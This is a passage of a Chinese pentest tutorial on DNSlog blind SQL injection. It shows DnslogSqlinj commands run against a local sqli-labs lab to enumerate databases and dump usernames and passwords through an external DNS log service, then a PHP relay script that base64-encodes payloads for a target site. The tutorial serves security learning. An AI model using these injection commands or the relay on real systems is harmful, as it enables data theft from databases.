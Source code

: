 ![1626268850_60eee4b26a7955fc144e7.png!small?1626268850513](https://image.3001.net/images/20210714/1626268850_60eee4b26a7955fc144e7.png!small?1626268850513)

![1626268862_60eee4be97d15b52c7aff.png!small?1626268862589](https://image.3001.net/images/20210714/1626268862_60eee4be97d15b52c7aff.png!small?1626268862589)

查询到的是hex编码的结果

![1626268884_60eee4d43a1d2a403355a.png!small?1626268884241](https://image.3001.net/images/20210714/1626268884_60eee4d43a1d2a403355a.png!small?1626268884241)

## py-Dnslogsqlinj-dnslog 注入演示脚本演示(实际案例)

项目地址：https://github.com/ADOOO/DnslogSqlinj  DNSlog注入工具

需要使用python27环境

首先需要修改配置文件:

![](https://gitee.com/YatJay/image/raw/master/img/202202152336565.png)

对于Less-9进行测试(本地地址为：http://localhost/pentest/sqlilabs/Less-9/?id=1)，使用语句如下：

获取数据库名:

`python dnslogSql.py -u "http://localhost/pentest/sqlilabs/Less-9/?id=1' and ({})--+" --dbs`

获取数据库security下的表名:

`python dnslogSql.py -u "http://localhost/pentest/sqlilabs/Less-9/?id=1' and ({})--+" -D security --tables`

获取users表的列名:

`python dnslogSql.py -u "http://localhost/pentest/sqlilabs/Less-9/?id=1' and ({})--+" -D security -T users --columns`

获取uses表中的数据:

`python dnslogSql.py -u "http://localhost/pentest/sqlilabs/Less-9/?id=1' and ({})--+" -D security -T users -C username,password --dump`

或直接使用`python dnslogSql.py -u "http://localhost/pentest/sqlilabs/Less-9/?id=1' and ({})--+"`进行测试

![](https://gitee.com/YatJay/image/raw/master/img/202202152346613.png)

# 涉及资源

- http://ceye.io/  知道创宇的DNS平台

- https://github.com/ADOOO/DnslogSqlinj  DNSlog注入工具

- https://www.bbsmax.com/A/A2dmVVQBze/   Sqlmap注入Base64编码的注入点：

- https://www.freebuf.com/column/184587.html

- https://www.cnblogs.com/renhaoblog/p/12912452.html

- https://www.pianshen.com/article/9561325277/

- https://github.com/bugscanteam/dnslog/(自己搭建dnslog服务器)

- PHP脚本
```php
<?php
$url='http://xxxx/job_bystjb/yjs_byszjs.asp?id=';  //声明url
$payload=base64_encode($_GET['x']);
echo  $payload;
$urls=$url.$payload;
file_get_contents($urls);
echo$urls;
?>
```

